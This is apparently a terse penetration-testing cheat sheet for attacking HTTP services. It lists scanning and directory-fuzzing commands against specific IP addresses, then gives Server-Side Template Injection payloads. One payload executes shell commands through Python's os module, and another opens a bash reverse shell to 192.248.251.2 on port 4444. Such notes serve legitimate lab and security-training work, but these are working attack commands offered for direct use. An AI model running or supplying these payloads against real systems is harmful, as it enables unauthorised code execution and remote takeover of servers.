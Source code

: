 ```yaml
---
  title: "HTTP"
  weight: 5
  chapter: true
---
```

nikto -host

Port and service scanning
nmap -sV --script=http-enum 192.168.120.62

curl -v http://192.168.120.62:8000


FUZZING
ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://147.102.33.187/FUZZ"
gobuster dir --url 10.129.227.155 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
gobuster dir -u http://10.10.11.100/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30 -x php

dirb http://192.168.120.62:8000


HTTP Methodology

- identify http port
- identify services version
- identify stack (wordpress, joumla etc.)


Check if web app is vulnerable to Server-Side Template Injection
URL: 192.248.251.3:8000/{{7*’7'}}
SSTI Payload: {{config.__class__.__init__.__globals__[‘os’].popen(‘ls’).read()}}
SSTI Payload: {{config.__class__.__init__.__globals__[‘os’].popen(“bash -c ‘bash -i >& /dev/tcp/192.248.251.2/4444 0>&1’”).read()}}

xsser tool
